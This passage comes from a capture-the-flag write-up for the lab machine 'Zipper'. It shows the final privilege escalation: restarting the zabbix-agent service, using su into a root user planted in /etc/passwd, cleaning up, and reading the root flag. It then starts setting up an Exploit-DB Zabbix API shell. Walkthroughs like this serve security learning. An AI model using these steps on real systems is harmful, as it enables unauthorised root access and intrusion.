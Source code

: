 

Now I can wait 5 minutes, or just stop and start the zabbix-agent
service:



    zapper@zipper:/dev/shm$ /home/zapper/utils/zabbix-service stop
    zapper@zipper:/dev/shm$ /home/zapper/utils/zabbix-service start



Now just `su` into my new root user:



    zapper@zipper:/dev/shm$ su df
    Password: 
    root@zipper:/dev/shm# id
    uid=0(root) gid=0(root) groups=0(root)



Now as root, I can clean up by removing the last line in `/etc/passwd`,
as well as the script in `/dev/shm`. I'll also change the service back
to how it originally was:



    root@zipper:/tmp# cat purge-backups.service > /etc/systemd/system/purge-backups.service



And get the flag:



    root@zipper:~# cat root.txt 
    a7c743d3...



## Beyond root - Exploit-Db Shell

### Background

A lot of people doing this challenge, including me at first, found the
"exploit" on Exploit-DB and eventually got it working, only to be
confused as to why there was nothing of interest in the container (well,
besides the admin cred reuse and the ability to send commands to the
other agent). Now that we understand how the API works, I can take a
look at how this shell works, and why it gives the results that it does.

I was tempted to make my own shell, but given that this one mostly works
once you understand what it's doing, I decided to just make a slight
modification to this one.

### Getting the Shell Running

On downloading, I'll have to change a few parameters:



    ZABIX_ROOT = 'http://10.10.10.108/zabbix' ### Zabbix IP-address
    url = ZABIX_ROOT + '/api_jsonrpc.php' ### Don't edit
